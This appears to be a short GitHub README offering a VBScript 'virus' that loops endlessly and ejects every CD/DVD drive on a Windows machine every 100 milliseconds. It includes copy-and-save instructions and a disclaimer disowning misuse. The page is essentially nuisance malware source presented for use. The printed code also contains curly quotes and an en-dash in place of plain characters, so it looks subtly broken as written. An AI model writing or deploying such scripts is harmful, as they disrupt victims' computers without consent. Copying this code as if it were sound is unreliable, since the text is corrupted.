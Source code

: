# Continious Cd Drive Popup VBS Virus
This code will Continuously Popup Cd/Dvd/Drive ROMs From The System After Executing The Files. 
<br>
<br>
copy the following code in notepad and save that with .vbs extention
```vbs
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
 Set colCDROMs = oWMP.cdromCollection
 do
 if colCDROMs.Count >= 1 then
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 For i = 0 to colCDROMs.Count – 1
 colCDROMs.Item(i).Eject
 Next
 End If
 wscript.sleep 100
 loop
```
# Disclaimer
This Is Not A Toy. This Is A Virus. Dont Try It On Any Real Hardware. I Am Not Responsible for Any Misuse Of This Virus.

